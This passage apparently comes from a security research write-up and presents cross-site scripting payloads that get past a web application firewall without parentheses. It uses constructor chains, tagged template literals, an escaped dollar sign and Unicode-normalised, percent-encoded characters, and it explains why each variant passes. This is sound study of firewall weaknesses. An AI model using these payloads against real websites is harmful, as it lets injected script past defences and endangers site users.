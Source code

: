 \begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using square bracket notation]
[]['constructor']['constructor']`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using dot notation]
[].constructor.constructor`a${'var s = "secret";promp' + 't`something\u{0024}{s}`'}```
\end{lstlisting}

It is conspicuous that the payload could bypass the firewall with only the later \verb|$| of the two placeholders: \verb|${expression}| escaped.
This seems to be a bug in the WAF or the ruleset.
It is also what enables the above payload to be valid.
A substitution of the earlier \verb|$| with an escaped variant is not possible.
JavaScript does not recognize the placeholder in the Template Literal without the explicit character \verb|$|.
Substitution of the second placeholder is possible because it happens inside a string containing the Tagged Template Literal.

If the webserver is using unicode normalization (NFKC) to normalize incoming requests, the character \verb|$| can also be replaced with another character in unicode that gets normalized to it to create a valid bypassing payload. It was tested with the small dollar sign U+FE69. In this case it was neccessary to use Percent encoding in addition to avoid that the WAF flags the Unicode escape sequences as :

\begin{lstlisting}[style=basicStyle, caption=avoiding () bypass payload using unicode normalization]
urllib.parse.quote("[]['constructor']['constructor']`a\uFE69{'var s = \"secret\";promp' + 't`something\uFE69{s}`'}```")
returns
%5B%5D%5B%27constructor%27%5D%5B%27constructor%27%5D%60a%EF%B9%A9%7B%27var%20s%20%3D%20%22secret%22%3Bpromp%27%20%2B%20%27t%60something%EF%B9%A9%7Bs%7D%60%27%7D%60%60%60
\end{lstlisting}

